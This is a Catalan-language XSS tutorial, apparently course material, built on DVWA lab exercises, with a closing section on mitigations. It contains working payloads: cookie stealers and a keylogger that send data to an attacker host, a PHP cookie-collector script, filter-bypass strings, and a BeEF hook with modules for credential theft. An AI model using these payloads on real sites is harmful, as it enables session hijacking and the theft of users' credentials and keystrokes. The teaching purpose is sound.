# 02. Vulnerabilitat XSS Injection

**Cross-Site Scripting (XSS)** és una vulnerabilitat que permet a un atacant **injectar codi JavaScript maliciós** en pàgines web que seran visitades per altres usuaris. L'explotació d'aquesta vulnerabilitat permet a un atacant executar scripts en el navegador de la víctima, i així poder obtenir informació sobre la seva sessió a la pàgina web entre altres dades.

## Objectius d'una Injecció XSS:

- ✅ **Session Hijacking** - Robar cookies de sessió per suplantar la identitat de la víctima
- ✅ **Credential Harvesting** - Capturar credencials o dades sensibles mitjançant formularis falsos injectats amb JavaScript (phishing)
- ✅ **Keylogger** - Registrar totes les tecles premudes per l'usuari
- ✅ **Defacement** - Modificar l'aparença i contingut (DOM) de la pàgina web
- ✅ **Redireccions malicioses** - Redirigir usuaris a llocs web maliciosos (phishing)
- ✅ **Propagació de malware** - Distribuir exploits del navegador redirigir a pàgines per descarregar i instal·lar malware al client
- ✅ **Explotació del navegador** - Utilitzar frameworks com BeEF (Browser Explotation Framework) per controlar el navegador del client.

## Tipus de XSS

L'objectiu del XSS és executar codi JavaScript al navegador del client (víctima). Segons on s'injecta i s'executa el codi JavaScript podem distingir:

### **1. Reflected XSS (No Persistent)**

Aquesta vulnerabilitat es produeix quan un atacant injecta un script maliciós fent ús de paràmetres de la URL o formularis HTML.

- El script maliciós s'executa quan la víctima carrega un enllaç o petició manipulada (amb el script inclós).

- El resultat de l'execució es reflexa en la resposta de la petició i no s'emmagatzema al servidor.

- Requereix intreracció de la víctima (1-clic), ha de fer clic en un enllaç aparentment legítim però maliciós.

### **2. Stored XSS (Persistent)**

Aquesta vulnerabilitat es produeix quan un atacant injecta un script en un formulari (publicació, comentari, dada de perfil d'usuari, etc.) que emmagatzema el contingut a la base de dades del servidor.

- El script s'executa cada vegada que un usuari accedeix a la web legítima amb el contingut infectat.

- És molt perillós perquè no cal interacció prèvia amb la víctima, l'atac és persistent mentre estigui el script maliciós a la base de dades (no s'hagi eliminat) i afecta a molts usuaris de manera simultània.

### **3. DOM-based XSS**

Aquesta vulnerabilitat es produeix quan un atacant injecta un script en un paràmetre o un formulari que modifica o es reflecteix al DOM (Document Object Model). Si el JavaScript que ja es troba al client, no tracta les dades com a text i les volca directament al DOM és quan es fa efectiva la vulnerabilitat.

- El script manipula el DOM sense realitzar cap petició al servidor. L'explotació es produeix completament al costat del client.

## Com funciona una Injecció XSS?

**Codi PHP vulnerable sense sanitització dels inputs**

```php
<?php
// Recollir l'input de l'usuari sense validació
$name = $_GET['name'];

// Mostrar directament, concatenant i sense satinitzar
echo "Hola, " . $name;
?>
```

**Input legítim i sortida que es genera**:

```
URL: http://exemple.com/salutacio.php?name=Joan
```

```html
<!-- Sortida normal -->
Hola, Joan
```

**Exemple d'input maliciós i sortida que es genera**:

```
URL: http://exemple.com/salutacio.php?name=<script>alert('XSS')</script>
```

```html
<!-- Sortida amb codi JavaScript injectat -->
Hola,
<script>
  alert('XSS');
</script>
```

**Interpretem la injecció**

El navegador interpreta el tag `<script>` com a codi JavaScript vàlid i l'executa:

```javascript
// El navegador executa:
alert('XSS');
// S'obre un quadre de diàleg amb el missatge 'XSS'
```

## Formes d'explotar una XSS Injection

### Reflected XSS (XSS No Persistent)

És el tipus més comú de XSS. L'atacant necessita que la víctima cliqui un enllaç maliciós. El payload s'executa immediatament però no es guarda a la base de dades.



#### **Detecció de la vulnerabilitat**

Per verificar si l'aplicació és vulnerable a XSS hem de provar d'**injectar etiquetes HTML o JavaScript** i observar si s'executen.

**Exemple - DVWA Reflected XSS**:

```
Input: <script>alert('XSS')</script>
```

També podeu fer-ho a través de la URL:

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss ciber')</script>#
```



**Payloads bàsics per detectar XSS:**

```html
<!-- Payload 1: Alert bàsic -->
<script>
  alert('XSS');
</script>

<!-- Payload 2: Alert amb document.cookie -->
<script>
  alert(document.cookie);
</script>

<!-- Payload 3: Tag HTML -->
<h1>HTML INJECTION TEST</h1>

<!-- Payload 4: Imatge o Input amb event handler -->

<input onmouseover="alert('pwned')" />

<!-- Payload 5: SVG amb JavaScript -->
<svg onload=alert('XSS')>

<!-- Payload 6: JavaScript Basat en URI -->
<iframe src="javascript:alert('XSS');"></iframe>
```

**Informació obtinguda:**

- ✅ Confirmem vulnerabilitat XSS Reflected
- ✅ El navegador executa codi JavaScript arbitrari
- ✅ Podem accedir a `document.cookie` (cookies de sessió)

### Stored XSS (XSS Persistent)

És la modalitat més perillosa de XSS. El script maliciós s'emmagatzema a la base de dades i s'executa automàticament cada vegada que qualsevol usuari accedeix a la pàgina.



#### **Exemple d'explotació - Llibre de visites (Guestbook)**

```html
<!-- Payload persistent introduït al camp "Message" -->
<script>
  alert('XSS Ciber Persistent!');
</script>
```



### DOM-based XSS

Aquest tipus d'XSS es produeix completament al costat del client, manipulant el DOM sense passar pel servidor.

#### **Codi JavaScript vulnerable:**

```html
<script>
  // Codi vulnerable - Utilitza directament un paràmetre de la URL
  const name = location.hash.substring(1);
  document.querySelector('#welcome').innerHTML = 'Benvingut a Ciber: ' + name;
</script>
```

**URL legítima vs URL maliciosa:**

```
http://domini.cat/welcome.html#Xavi
http://domini.cat/welcome.html#
```

#### **Exemple d'explotació DOM-based XSS:**



```
URL: http://IP_DE_LA_VM/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```



## Exemples d'explotació XSS Injection

### **1. Defacement - Modificar l'aparença de la pàgina**

Exemple amb DVWA XSS Reflected:

```html
<script>
  document.querySelector('#main_body').innerHTML +=
    '<h1 style="background-color:darkblue;text-align:center;margin:auto;color:white;padding:1rem;width:90%;margin:0 auto;border-radius:0.5rem;">HACKED BY CIBER ICV</h1>';
</script>
```



### **2. Cookie Stealing (Robar Cookies de Sessió)**

L'objectiu principal d'un atac XSS és intentar robar les cookies de sessió per suplantar la identitat de la víctima.

**Cookie Stealer Persistent - Bàsic amb Netcat**

Exemple amb DVWA XSS Persistent:

```html
<script>
  new Image().src = 'http://IP_DEL_KALI:4444?cookie=' + document.cookie;
</script>
```

Ens posem en escolta pel port 4444 al Kali:

```bash
#Fem ús de netcat per escoltar pel port 4444
nc -nvlp 4444
```

**Cada usuari que visiti la pàgina enviarà les seves cookies automàticament!**



**Cookie Stealer Persistent - Avançat amb un Servidor PHP**

Crear un fitxer PHP al nostre Kali perquè rebi i emmagatzemi les cookies:

**Configurar el servidor web Apache al Kali:**

```bash
# Instal·lar Apache
sudo apt update
sudo apt install apache2
sudo apt install php libapache2-mod-php

# Crear els fitxer de lògica i per guardar les cookies a /var/www/html/
sudo touch /var/www/html/roba_cookies.php
sudo touch /var/www/html/cookies.txt

# Modificar el propietari dels fitxers
sudo chown -R www-data:www-data /var/www/html

# Iniciar el Apache si està apagat
sudo systemctl restart apache2
```

```php
<?php
// Fitxer: roba_cookies.php
$cookie = $_GET['cookie'];
$ip = $_SERVER['REMOTE_ADDR'];
$date = date('Y-m-d H:i:s');

// Guardar la cookie en el fitxer de cookies.txt
$file = fopen('cookies.txt', 'a');
fwrite($file, "[$date] IP: $ip - Cookie: $cookie\n");
fclose($file);

// Redirigir a la web legítima per no aixecar sospites
header('Location: http://IP_DE_LA_VM/dvwa/');
?>
```

**Payload per enviar cookies al nostre servidor**

```html
<script>
  document.location = 'http://IP_DEL_KALI/roba_cookies.php?cookie=' + document.cookie;
</script>
```

**Versió URL encoded per enviar amb un XSS Reflected:**

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2FIP_DEL_KALI%2Froba_cookies.php%3Fc%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E
```

**Verificar que s'han rebut les cookies:**

```bash
# Al Kali
cat /var/www/html/cookies.txt
```



### **3. Session Hijacking - Utilitzar les cookies robades**

Amb les cookies obtingudes podem suplantar la identitat de la víctima:

1. Obrir una pestanya d'incògnit al Firefox del Kali o al teu Host.
2. Navegar a http://IP_DE_LA_VM/dvwa/login.php
3. Obrir les Developer Tools del navegador (F12)
4. Anar a la pestanya "Storage" o "Application"
5. Modificar el valor de la cookie PHPSESSID
6. Carregar la pàgina http://IP_DE_LA_VM/dvwa/



**Usuari admin suplantat amb èxit! Sessió iniciada sense necessitat d'introduïr l'usuari i la contrasenya.**

### **4. Keylogger amb JavaScript**

Podem crear un keylogger que enviï totes les tecles premudes per la víctima al nostre servidor. L'objectiu principal és obtenir informació personal dels usuaris d'una aplicació.

**Crear el fitxer PHP amb la lògica per recepcionar les tecles:**

```bash
# Preparar el servidor
sudo touch /var/www/html/keylogger.php
sudo touch /var/www/html/keys.txt
sudo chown -R www-data:www-data /var/www/html
```

```php
<?php
// Fitxer: keylogger.php
$key = $_GET['key'];
$ip = $_SERVER['REMOTE_ADDR'];
$date = date('Y-m-d H:i:s');

// Guardar les tecles en un fitxer
$file = fopen('keys.txt', 'a');
fwrite($file, "[$date] IP: $ip - Key: $key\n");
fclose($file);
?>
```

#### **Payload del Keylogger:**

```html
<script>
  document.onkeypress = tecla => fetch(`http://IP_DEL_KALI/keylogger.php?key=${tecla.key}`);
</script>
```

**Activar el keylogger**



**Keylogger activat - Fent proves**



**Visualitzar les tecles capturades:**

```bash
# Kali Linux
cat /var/www/html/keys.txt
```



## Tècniques de Bypass de Filtres XSS

Moltes aplicacions implementen filtres per mitigar la vulnerabilitat de XSS. Algunes de les tècniques per evitar aquests filtres són:

### **1. Filtres que bloquegen `<script>`**

Si l'aplicació filtra/bloqueja el tag `<script>`, podem utilitzar els event handlers (ja explicat anteriorment):

```html
<!-- Exemple de Gestió d'Esdeveniments amb HTML -->
 <body onload=alert('XSS')> <svg onload=alert('XSS')> <iframe
onload=alert('XSS')> <input onfocus=alert('XSS') autofocus> <select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus> <marquee onstart=alert('XSS')>
```

### **2. Filtres que bloquegen `alert`**

Si bloquegen la funció `alert()`, podeu utilitzar alternatives com:

```html
<!-- Alternatives a alert() -->
<script>
  confirm('XSS');
</script>
<script>
  prompt('XSS');
</script>
<script>
  console.log('XSS');
</script>
<script>
  document.write('XSS');
</script>
```

### **3. Codificar i Ofuscar (Encoding and Obfuscation)**

```html
<!-- Fent ús de HTML Entities -->


<!-- Codificació amb Hexadecimal -->


<!-- Unicode homoglyph -->
<!-- Les lletres "c" són Unicode en llenguatge ciríl·lic -->
<sсript>alert(1);</sсript>

<!-- Codificació en Base64 -->
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>
```

### **4. Case Sensitivity (Majúscules/Minúscules)**

```html
<!-- Si filtra només <script> en minúscules 
<SCRipt>
  alert('XSS');
</SCRipt>
-->
```

### **5. Filtres que eliminen tags**

```html
<!-- Doble tag (elimina 1 tag) -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>

<!-- Tag incomplet (no considera que s'ha d'eliminar) -->
<script src=//IP_DEL_KALI/xss.js>
```

### **6. Polyglot XSS (Funciona en múltiples contextos)**

```javascript
javascript: /*--></title></style></textarea></script></xmp>
<svg/onload='+/"/+/onmouseover=1/+/[*/ [] / +alert(1); //'>
```

## BeEF Framework (Browser Exploitation Framework)

BeEF és un framework per explotar vulnerabilitats XSS i controlar completament el navegador de la víctima.

### **Instal·lació de BeEF:**

```bash
# Instal·lar al Kali
sudo apt update
sudo apt install beef-xss

# Iniciar BeEF
sudo beef-xss
```



**Credencials per defecte:**

- URL: `http://127.0.0.1:3000/ui/authentication`
- User: `beef`
- Password: `beef`


### **Hook del BeEF (Codi JavaScript per injectar):**

```html
<script src="http://IP_DEL_KALI:3000/hook.js"></script>
```

**Injectar el hook a DVWA Reflected XSS:**

```
Input XSS: <script src="http://IP_DEL_KALI:3000/hook.js"></script>
```

### **Navegadors compromesos (Hooked Browsers):**

Quan una víctima accedeix a la pàgina amb el hook de BeEF, apareix al panell i podem obtenir la següent informació del navegador:

- Sistema operatiu
- Navegador i versió
- Plugins instal·lats
- Cookies
- Historial



**Fake notification bar (Barra de notificació falsa):**

```javascript
// Mòdul: Social Engineering -> Fake Notification Bar
// Mostra una barra falsa per demanar actualització del navegador
```



**Pretty Theft (Robar credencials):**

```javascript
// Mòdul: Social Engineering -> Pretty Theft
// Mostra un popup fals per demanar credencials
```

**Keylogger:**

```javascript
// Mòdul: Browser -> Hooked Domain -> Keylogger
// Captura totes les tecles premudes
```

**Webcam (amb permís de l'usuari):**

```javascript
// Mòdul: Phonegap -> Webcam
// Sol·licita accés a la webcam
```

**Redirect Browser:**

```javascript
// Mòdul: Browser -> Hooked Domain -> Redirect Browser
// Redirigeix el navegador a qualsevol URL
```

**Raw JavaScript:**

```javascript
// Mòdul: Debug -> Raw JavaScript
// Executar codi JavaScript arbitrari al navegador de la víctima
```

## Com mitigar la vulnerabilitat de XSS?

### **1. Validació i Sanitització d'Input**

```php
<?php
// Utilitzar htmlspecialchars per escapar
$safe_input = htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');

// Validar format esperat
if (!preg_match('/^[a-zA-Z0-9]+$/', $username)) {
    die("Input invàlid");
}
?>
```

### **2. Content Security Policy (CSP)**

```html
<!-- Header HTTP per bloquejar inline scripts -->
Content-Security-Policy: default-src 'self'; script-src 'self'
```

```html
<!-- Meta tag a l'HTML -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'" />
```

### **3. HTTPOnly i Secure Cookies**

```php
<?php
// Cookies amb flag HTTPOnly (no accessibles via JavaScript)
setcookie('session', $session_id, [
    'httponly' => true,
    'secure' => true,    // Només HTTPS
    'samesite' => 'Strict'
]);
?>
```

### **4. Framework amb Protecció Automàtica**

Utilitzar frameworks moderns que escapen automàticament l'output:

- React (escapa per defecte)
- Vue.js (escapa per defecte)
- Angular (escapa per defecte)

### **5. X-XSS-Protection Header**

```
X-XSS-Protection: 1; mode=block
```

## Eines per Detectar XSS

### **1. Llista de Payloads:**

- XSS Cheat Sheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

### **2. Eines Automatitzades:**

```bash
# XSStrike - Advanced XSS Detection
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py -u "http://target.com/search?q=test"

# Burp Suite - Intruder amb payloads XSS
# OWASP ZAP - Active Scan
```

### **3. Extensions del Navegador:**

- XSS Validator (Burp Suite)
- Retire.js (detectar llibreries vulnerables)
- Wappalyzer (tecnologies utilitzades)

## Recursos Addicionals

- **OWASP XSS Guide**: https://owasp.org/www-community/attacks/xss/
- **PortSwigger Web Security Academy**: https://portswigger.net/web-security/cross-site-scripting
- **HackTricks XSS**: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
- **BeEF Project**: https://beefproject.com/
